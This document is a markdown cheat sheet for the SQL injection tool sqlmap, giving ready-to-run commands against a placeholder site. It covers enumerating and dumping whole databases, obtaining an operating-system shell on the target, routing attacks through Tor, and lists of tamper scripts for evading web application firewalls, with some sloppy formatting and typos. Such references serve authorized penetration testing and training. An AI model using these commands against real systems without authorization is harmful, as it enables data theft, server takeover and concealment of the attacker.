 # sqlmap 

If you don’t know anything about the target site then use the normal command first, 
Observe if the SQLMap found something juicy for you

### Basic usage
```sh
sqlmap -u “https://target_site.com/page/”
```

### Automatic GET request parameter
```sh
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”
```
### Specify the GET request parameters to Exploit

You can specify on which parameter you want to check or exploit the sql injection using just “-p” flag.
```sh
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2” -p p1
```

### Use POST requests (Test All parameters)
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"
```

### SQLMap Request file as input

You can specify a request file containing the HTTP request, You can get it quickly from BurpSuite.

```sh
sqlmap -r request.txt
```

### Here you can specify the targeted parameter or sqlmap will recognize and will test for all the parameters found.

!! info "Specify Custom Position in HTTP request file - You can use the asterisk sign(*) to specify which parameter to attack or which place of the request to be attacked. You can specify or mark any part of the request by this method."

### Use Authenticated Session With Cookie
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"
```
### Use Authenticated Session with Auth Headers
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"
```
### Basic Authentication
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password
```
### Use Previously created Session as SQLmap input (-s)

If you got SQL injection positive somewhere, then sqlmap will automatically create a session file(.sqlite) for later use. Now, If you want to try some other commands later, you can use the session file directly (It will save your time to re-try all the possible payloads and identify the vulnerability and all.)

```sh
sqlmap -u “https://target_site.com/page?p1=value1" -s SESSION-FILE.sqlite --dbs
```
## Post Exploitation Commands

If the SQL injection vulnerability is observed positive then you can use the following commands to Exploit the SQL injection vulnerability.

### List the Databases
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --dbs
```
### List Tables of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables
```
### List Columns of Table TARGET_TABLE of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns
```
### Dump Specific Data of Columns of Table TARGET_TABLE of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump
```
### Fully Dump Table TARGET_TABLE of Database TARGET_DB

```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump
```
### Dump full Database

```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump
```

### Custom SQL query

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"
```
### Get OS Shell
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --os-shell
```
### Get SQL shell
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell
```
## SQLMap Proxy

## Proxy through Burpsuite
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --proxy="http://127.0.0.1:8080/"
```
## Use Tor Socks5 proxy
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --tor --tor-type=SOCKS5 --check
```
## Extra

### Specify The Database Type
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --dbms=mysql
```

You can use other DBMS types like MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, Percona, MemSQL, TiDB, CockroachDB, HSQLDB, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB, FrontBase, etc.

## Attack Techniques

`–technique` Specify a letter or letters of BEUSTQ to control the exploit attempts:

```
B: `Boolean-based blind`

E: `Error-based`

U: `Union query-based`

S: `Stacked queries`

T: `Time-based blind`

Q: `Inline queries`
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ
```

### Specify the Injection Techniques

```
You can specify the difficulty levels using two flags,

Option: --risk

–level = LEVEL     Level of tests to perform (1-5, default 1)
–risk=RISK         Risk of tests to perform (0-3, default 1)```sh
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --risk=3 --level=5
```
### This option requires an argument that specifies the risk of tests to perform. There are three risk values.

```
–riks=1: 1 is the default value which is for the majority of SQL injection points.
–riks=2: Adds to the default level the tests for heavy query time-based SQL injections
–riks=3: Value 3 adds also OR-based SQL injection tests.
```

When the value of --level is >= 2 it tests also HTTP Cookie header values. When this value is >= 3 it tests also HTTP User-Agent and HTTP Referer header value for SQL injections.

Use Default Options for the process
Use –batch flag to use all the default options or used for non-interactive sessions. (By specifying –batch flag, sqlmap will not ask you for the (Y/N) choice rather then it will smartly choose according to the needs.)
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --batch
```

### Force SQLmap to use SSL or TLS for its requests.

`–force-ssl flag` - Error: Can’t establish SSL connection

If you getting the following error during testing then you can use the flag `–force-ssl` to force SQLMap to use SSL or TLS.

## Tamper Scripts

You can use the tamper scripts to bypass WAF or to modify the payload. You can use multiple tampering scripts at once using `–tamper` flag.

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --tamper=charencode
```

### For General Perpose Usecase:
```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

### MSSQL:
```
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dsash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

### MySQL:

```
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
OR You can create your own Custom Tamper script to overcome the issue of some type of Encrypted payloads like AES, DES, Hashing, etc.
```
